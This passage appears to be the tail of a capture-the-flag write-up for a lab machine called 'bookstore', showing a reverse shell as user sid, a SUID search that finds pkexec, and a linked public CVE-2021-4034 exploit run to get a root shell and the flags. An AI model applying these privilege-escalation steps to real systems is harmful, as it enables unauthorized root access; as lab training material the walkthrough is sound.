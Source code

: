 I received the reverse shell connection and successfully retrieved the user flag:
```bash
sid@bookstore:~$ id
  uid=1000(sid) gid=1000(sid) groups=1000(sid)
sid@bookstore:~$ cat user.txt 
  4[removed]b
```

## Privilege Escalation root

Next, I checked for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:
```bash
sid@bookstore:~$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/pkexec
  [...]
sid@bookstore:~$ nano exploit.py
sid@bookstore:~$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7f4df9395000 at 0x7f4df921d860>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# id
  uid=0(root) gid=1000(sid) groups=1000(sid)
# cat /root/root.txt
  e[removed]3
```

solved! :)